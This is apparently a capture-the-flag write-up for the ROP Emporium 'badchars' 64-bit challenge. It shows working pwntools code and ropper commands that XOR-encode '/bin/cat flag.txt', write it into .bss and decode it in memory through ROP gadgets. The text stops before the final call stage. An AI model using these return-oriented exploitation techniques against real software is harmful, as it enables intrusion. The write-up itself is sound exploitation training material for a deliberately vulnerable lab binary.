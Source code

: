 # badchars


## 32bit


## 64bit

Like always check the buffer we know it is 40bytes but its always good to be safe.

Running it we see some pretty bad news
```
badchars are: b i c / <space> f n s
```
Which eliminates `/bin` and other goodies from our input and any opcodes that happen to have the same bytes as the above chars

Converting them to hex so later we can give the bad bytes to `ropper` so it knows to avoid them
```
0x62, 0x69, 0x63, 0x2f, 0x20, 0x66, 0x6e, 0x73
```

### Avoiding Bad Chars


Luckily ROPEmporium was nice and left a hint in the symbol table of the ELF

![hint](imgs/64bit/usefulGadget.png)

If they weren't that nice we could have also found that gadget and other useful gadgets by using `ropper` which is covered in **Finding Gadgets** section below

So now that we know we have a nice XOR gadget to be used we need to XOR the badchars in `/bin/cat flag.txt` with a key in this instance a single letter because of the useful gadget:
```
xor byte ptr [r15], r14b; ret;
```
This XORs a single byte in r15 with the low/first byte of r14. The XOR key is just be a single char

Using [xor.py](xor.py) a quick and dirty script made to help find a key that didn't produce any badchars

The key doesn't have to be the same for all of them. I just did for convience.
And only XOR the bad chars and not the whole string or later the ROPchain will have too many operations

```
"/bin/cat flag.txt" XOR "D" = "k&-*k'atd"lag.txt"
```

Now that we have disguise our favorite string we can move on to creating the payload

### Creating the Payload

The payload is made of 3 parts
1) Loading the string to memory
2) Modifying the string in memory
3) Loading the string into the system call

#### Finding Gadgets

`ropper` is a super handy gadget finder that gef uses to locate ROP gadgets. It's general usage is as follows
- A 'gadget' in ROP terms is a string of asm operations followed by a ret call so it can be chained or returned into the next part of the ropchain
- `--search` uses a regex to find your query in the asm's opcodes ex: `--search "pop rdi"` will return gadgets that contain `pop rdi`
- `-b` is used to specify bad bytes, which is critical for this challenge

```
ropper --search $QUERY -b 6269632f20666e73 #-b is bad bytes and the number is all the bad bytes above just lumped together
```

#### Loading the String

Searching by `mov qword` we get mov the value of r12 into the memory address stored in r13

```
ropper --search "mov qword" -b 6269632f20666e73

0x0000000000400b34: mov qword ptr [r13], r12; ret;
```

Now we need to load data into r12 and r13

Searching for `pop r12` we get:

```
ropper --search "pop r12" -b 6269632f20666e73

0x0000000000400b3b: pop r12; pop r13; ret;
```

Now that we can load our string into memory, we need to find somewhere to place the string into memory. We can find this by looking at the ELF's sections.

Using `rabin2` from radare2
```
rabin2 -S badchars
```
![data section](imgs/64bit/data.png)

Code Snip of it all together:
```
data_start = 0x601080 # pop_r12_r13 = p64(0x400b3b)
mov_r13_r12 = p64(0x400b34)
load_str_1 = pop_r12_r13 + bin_cat + p64(data_start) + mov_r13_r12
load_str_2 = pop_r12_r13 + flag_txt + p64(data_start+0x8) + mov_r13_r12
load_str_3 = pop_r12_r13 + last_bit + p64(data_start+0x10) + mov_r13_r12
load_str = load_str_1 + load_str_2 + load_str_3
```

I'm using .bss`0x601080` instead of .data`0x601070` because the third char for the string would have landed at `0x601073` which ends in a bad char `0x73` aka 's'

You could offset it by one and have the start be `0x601071` so then the third char is `0x601074` instead of `0x601073` it really doesn't matter.

But throught this whole challenge be aware of the bad chars and if something isn't working but it definately should then it's probably bad chars.

Test and get this part working before moving on.

![loaded string](imgs/64bit/loadedString.png)

#### Modifing the String

Now that the string is loaded into memory we can modify it back to it's original state

We'll use that `usefulGadget` we found from before
```
xor byte ptr [r15], r14b; ret;
```

But we need to find a way to load data into r15 and r14
```
ropper --search "pop r14" -b 6269632f20666e73

0x0000000000400b40: pop r14; pop r15; ret;
```

Now we just need to make a ropchain with the previously used key to xor the string back to `/bin/cat flag.txt`

CODE:
```
key = "D".ljust(8,"\x00").encode() #left justfied so it becomes 8 bytes in length "D\x00\x00\x00\x00\x00\x00\x00"
pop_r14_r15 = p64(0x400b40)
xor_r15_r14b = p64(0x400b30)

# 'D' ^ '/'
xor_str_0 = pop_r14_r15 + key + p64(data_start) + xor_r15_r14b
# 'D' ^ 'b'
xor_str_1 = pop_r14_r15 + key + p64(data_start+0x1) + xor_r15_r14b
# 'D' ^ 'i'
xor_str_2 = pop_r14_r15 + key + p64(data_start+0x2) + xor_r15_r14b
# 'D' ^ 'n'
xor_str_3 = pop_r14_r15 + key + p64(data_start+0x3) + xor_r15_r14b
# 'D' ^ '/'
xor_str_4 = pop_r14_r15 + key + p64(data_start+0x4) + xor_r15_r14b
# 'D' ^ 'c'
xor_str_5 = pop_r14_r15 + key + p64(data_start+0x5) + xor_r15_r14b
xor_cat = xor_str_0 + xor_str_1 + xor_str_2 + xor_str_3 + xor_str_4 + xor_str_5

# 'D' ^ ' '
xor_str_8 = pop_r14_r15 + key + p64(data_start+0x8) + xor_r15_r14b
# 'D' ^ 'f'
xor_str_9 = pop_r14_r15 + key + p64(data_start+0x9) + xor_r15_r14b
xor_flag = xor_str_8 + xor_str_9

xor_str = xor_cat + xor_flag
```

Once again run and test this stage of the exploit before moving on. The less to debug is always better.

![modified string](imgs/64bit/modifiedString.png)
